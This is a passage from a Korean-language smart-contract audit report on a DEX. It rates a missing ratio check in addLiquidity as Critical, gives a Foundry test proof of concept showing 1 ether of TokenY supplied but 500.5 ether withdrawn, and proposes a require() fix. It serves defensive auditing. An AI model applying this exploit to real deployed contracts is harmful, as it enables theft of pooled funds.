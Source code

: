 ### 파급력

Critical

- 산정 이유
    - 접근성이 매우 높고 피해 규모 또한 크다.
- 공격 시나리오
    - 유동성 공급 이후 발행된 LP토큰으로 removeLiquidity를 수행하면 공급하지 않은 Y토큰까지 탈취가 가능하다.
    - 아래 코드에서 TokenY는 1 ether만 공급하지만 LP토큰으로 회수하는 양은 500.5 ether이다.
    
    ```jsx
    function testAddLiquidity() external {
      uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0);
      emit log_named_uint("firstLPReturn", firstLPReturn);
    
      uint secondLPReturn = dex.addLiquidity(1000 ether, 1 ether, 0);
      emit log_named_uint("secondLPReturn", secondLPReturn);
    
      (uint tx, uint ty) = dex.removeLiquidity(secondLPReturn, 0, 0);
      emit log_named_uint("second LP remove", tx);
      emit log_named_uint("second LP remove", ty);
    
      assertEq(tx, 1000 ether);
      assertEq(ty, 1 ether);
    }
    ```
    
    ```jsx
    [FAIL. Reason: Assertion failed.] testAddLiquidity1() (gas: 230416)
    Logs:
      firstLPReturn: 1000000000000000000000000
      secondLPReturn: 1000000000000000000000000
      second LP remove: 1000000000000000000000
      second LP remove: 500500000000000000000
      Error: a == b not satisfied [uint]
            Left: 500500000000000000000
           Right: 1000000000000000000
    ```
    
- 공격 난이도
    - 누구나 접근 가능하므로, 매우 쉽다.
- 발생할 수 있는 피해
    - 유동성 공급 여부와 상관없이 누구나 유동성 토큰을 발행할 수 있으며, 발행한 토큰의 양만큼 회수가 가능하다. 따라서 DEX에 공급된 자산 전부를 탈취할 수 있다.

### 해결 방안

- addLiquidity 함수 실행시 유동성 풀에 있는 토큰의 비율을 검사하는 코드가 필요하다.

```jsx
require(reserveX * tokenYAmount == reserveY * tokenXAmount);
```

## 황준태

## 1. No Imbalance Check on Add Liquidity
